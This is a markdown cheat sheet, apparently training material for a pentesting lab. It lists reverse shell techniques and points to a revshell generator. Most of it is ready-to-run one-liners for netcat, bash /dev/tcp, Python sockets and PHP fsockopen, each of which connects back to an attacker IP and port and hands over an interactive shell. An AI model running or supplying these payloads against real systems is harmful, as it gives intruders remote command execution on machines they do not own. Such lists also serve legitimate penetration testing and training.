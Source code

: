 # Reverse Shell Techniques

A reverse shell is a technique used in penetration testing or hacking to gain remote access to a target machine. It involves establishing a connection from the target machine back to the attacker's machine, allowing the attacker to execute commands on the target system. Here are some commonly used reverse shell techniques:

## Use Reverse Shell Generator

- On your AttackBox, go to Firefox > Bookmarks > Revshell Generator (or http://localhost:7778/)
- Under IP & Port, add your attackbox IP and Port on which you want your vulnerable machine to connect.
- Under Reverse choose among wide variety of Reverse Shells provided. Common ones are: `nc mkfifo`, `Python #2`, `Python3 #2`, `Python3 shortest`.

## Netcat Reverse Shell

- Netcat, or `nc`, is a versatile networking utility that can be used to establish a reverse shell connection.
- The attacker listens on a specific port and waits for the target machine to connect back.
- Example: `nc -lvnp <port>` on the attacker's machine and `nc <attacker_ip> <attacker_port> -e /bin/bash` on the target machine.

Resource link: [Netcat Reverse Shell Cheat Sheet (highon.coffee)](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

## Bash Reverse Shell

- Bash, the popular Unix shell, can be used to create a reverse shell connection.
- The attacker sets up a listener and waits for the target machine to connect back.
- Example 1: `bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1` on the target machine.
- Example 2 (Pentest Monkey Bash Reverse Shell): `bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'` on the target machine.

Resource link: [Bash Reverse Shell Cheat Sheet (pentestmonkey.net)](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Python Reverse Shell

- Python scripting language can be used to create a reverse shell connection.
- The attacker runs a Python script as the listener and waits for the target machine to connect back.
- Example: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<attacker_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` on the target machine. Change the values on `<attacker_ip>` and `<attacker_port>`

Resource link: [Python Reverse Shell Cheat Sheet (sushant747.gitbooks.io)](https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html)

## PHP Reverse Shell

- PHP can be used to create a reverse shell connection.
- The attacker sets up a PHP script as the listener and waits for the target machine to connect back.
- Example (Pentest Monkey PHP Reverse Shell): `php -r '$sock=fsockopen("<attacker_ip>",<attacker_port>);exec("/bin/sh -i <&3 >&3 2>&3");'` on the target machine.

Resource link: [PHP Reverse Shell Cheat Sheet (pentestmonkey.net)](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
